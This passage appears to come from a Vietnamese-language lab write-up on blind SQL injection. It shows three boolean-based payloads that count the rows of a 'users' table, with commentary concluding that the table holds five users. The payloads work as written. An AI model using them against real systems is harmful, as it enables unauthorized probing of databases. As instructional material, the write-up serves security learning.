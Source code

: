       ```
      1' AND (SELECT COUNT(*) FROM users) > 5 -- -
      ```
      ![](./images/17-40-30.png)
      > Từ kết quả trên ta thấy số lượng *user* nằm trong khoảng (1-5)
      
      ```
      1' AND (SELECT COUNT(*) FROM users) > 3 -- -
      ```
      ![](./images/17-43-20.png)
      > Từ kết quả trả về ta thấy số lượng *user* nằm trong khoảng (3-5)
      
      ```
      1' AND (SELECT COUNT(*) FROM users) > 4 -- -
      ```
      ![](./images/17-47-27.png)
      > Từ kết quả trả về ta kết luận được số lượng *user* có trong table `users` là 5.
